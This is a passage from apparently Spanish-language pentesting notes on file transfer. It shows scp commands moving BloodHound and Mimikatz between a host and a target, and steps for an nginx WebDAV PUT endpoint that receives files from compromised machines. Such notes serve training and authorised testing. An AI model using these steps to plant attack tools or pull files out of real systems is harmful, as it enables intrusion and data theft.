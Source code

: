 ```go

     io.Copy(lfile, response.Body)
}
```

## scp

- upload

```bash
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

- download

```bash
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Catching Files over HTTP/SMB

### Nginx

1. Crear directorio para Uploads y asignarlo a www-data

```bash
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

2. Crear archivo de configuración

```bash
server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
```

3. Una liga de nuestro sitio a sites-enabled
```
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

4. Iniciar nginx

```bash
sudo systemctl restart nginx.service
```

5. Si tenemos error
   
Los errores van a `/var/log/nginx/error.log`
